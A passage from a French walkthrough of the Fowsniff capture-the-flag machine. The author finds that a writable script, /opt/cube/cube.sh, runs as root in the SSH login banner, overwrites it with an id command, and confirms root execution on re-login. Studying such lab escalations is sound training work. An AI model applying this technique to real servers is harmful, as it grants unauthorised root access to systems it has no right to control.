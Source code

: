 ```console
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

baksteen@fowsniff:/opt/cube$
```

Tiens c'est amusant, on dirait la bannière d'accueil SSH lors de notre connexion en tant que ```baksteen```. Vérifions cela...

```console
baksteen@fowsniff:~$ cat /etc/motd
cat: /etc/motd: No such file or directory

baksteen@fowsniff:~$ cat /etc/pam.d/sshd
# PAM configuration for the Secure Shell service

--snip--
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
--snip--

baksteen@fowsniff:~$ cat /run/motd.dynamic

   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.
```

La bannière de connexion est bel et bien composée de deux éléments, ```/run/motd.dynamic``` et ```/opt/cube/cube.sh```. Ce dernier est modifiable à souhait, nous avons les droits d'écriture sur ce fichier. Mais le script est-il exécuté en tant que ```root``` ?

```console
baksteen@fowsniff:~$ echo 'usr/bin/id' > /opt/cube/cube.sh
baksteen@fowsniff:~$ exit
logout
Connection to 192.168.56.101 closed.

root@blinils:~# ssh baksteen@192.168.56.101
baksteen@192.168.56.101's password: 
uid=0(root) gid=0(root) groups=0(root)

   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Mon Nov 26 17:17:17 2018 from 192.168.56.102
```
